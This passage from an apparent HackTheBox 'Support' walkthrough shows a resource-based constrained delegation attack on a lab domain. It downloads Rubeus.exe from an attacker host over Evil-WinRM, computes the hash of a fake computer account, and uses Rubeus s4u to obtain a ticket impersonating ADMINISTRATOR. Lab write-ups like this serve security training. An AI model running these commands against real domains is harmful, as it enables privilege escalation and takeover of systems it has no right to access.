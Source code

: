 We have SID _S-1-5-21-1677581083-3380853377-188903654-5601_ which is FAKE01$ SID. So we are good.

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/support/6_7_checks.png" width="90%"/>
</p>

Now, perform the impersonation with Rubeus.exe First, generate the RC4 hash of the password we set for the FAKE01 computer:


```bash
*Evil-WinRM* PS C:\Users\support\Desktop> Invoke-WebRequest -Uri "http://10.10.14.3:5454/Rubeus.exe" -Outfile Rubeus.exe
*Evil-WinRM* PS C:\Users\support\Desktop> .\Rubeus.exe hash /password:123456 /user:fake01 /domain:support.htb

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.1


[*] Action: Calculate Password Hash(es)

[*] Input password             : 123456
[*] Input username             : fake01
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTBfake01
[*]       rc4_hmac             : 32ED87BDB5FDC5E9CBA88547376818D4
[*]       aes128_cts_hmac_sha1 : 3E1A2E5F7675F6BA5C21FDEABFD92B93
[*]       aes256_cts_hmac_sha1 : 37CD1332C1F8DC0C4AA0B738CC971DEBD8D66AED50AF2AF2EC63B7459344B834
[*]       des_cbc_md5          : E0795B98AEA1A16B
```

We get the RC4_HMAC: **32ED87BDB5FDC5E9CBA88547376818D4**. Now, let's execute the attack, with Rubeus requesting a Kerberos Ticket for FAKE01$ with the capability of impersonating user ADMINISTRATOR@SUPPORT.HTB. Why this user? because this user is an Explicit Admin of target machine DC.SUPPORT.HTB as seen on BloodHound:

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/support/6_8_admins.png" width="90%"/>
</p>

Execute the following command to get the ticket as ADMINISTRATOR:

```
.\Rubeus.exe s4u /user:FAKE01$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 
  /impersonateuser:ADMINISTRATOR /msdsspn:cifs/DC.SUPPORT.HTB /ptt
```

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/support/6_9_ticket.png" width="90%"/>
</p>
